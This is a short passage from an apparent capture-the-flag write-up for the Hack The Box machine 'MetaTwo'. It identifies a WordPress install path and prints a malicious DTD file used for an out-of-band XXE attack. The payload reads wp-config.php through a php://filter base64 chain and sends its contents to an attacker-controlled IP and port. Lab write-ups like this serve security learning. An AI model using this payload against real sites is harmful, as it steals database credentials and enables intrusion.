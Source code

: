 <figure><img src="../.gitbook/assets/image (49).png" alt=""><figcaption></figcaption></figure>

Now we know that the path is `/var/www/metapress.htb/blog`.

```
┌──(kali㉿kali)-[~/htb/machines/metatwo]
└─$ cat jsquared.dtd 
<!ENTITY % file SYSTEM "php://filter/zlib.deflate/read=convert.base64-encode/resource=/var/www/metapress.htb/blog/wp-config.php">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://10.10.14.18:1234/?p=%file;'>" >
```

I'll skip the base64 output since it's a lot of the same process.&#x20;
